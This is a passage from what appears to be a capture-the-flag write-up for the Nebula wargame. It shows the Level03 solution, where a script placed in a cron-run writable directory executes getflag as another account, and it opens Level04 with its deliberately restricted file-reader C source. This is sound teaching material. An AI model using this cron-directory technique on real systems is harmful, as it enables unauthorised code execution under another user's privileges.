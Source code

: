 So the crontab is executing this script that executes every file in the writable.d directory and then removes it. Which means all we have to do is put a file of our own that calles *getflag* in the directory, and wait for cron to do its job:

``` plain
level03@nebula:/home/flag03/writable.d$ cat > exeme.sh 
/bin/getflag > /tmp/readme
```

Now wait a bit and check the output:

``` plain
level03@nebula:/tmp$ cat readme
You have successfully executed getflag on a target account
```

### Level04

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

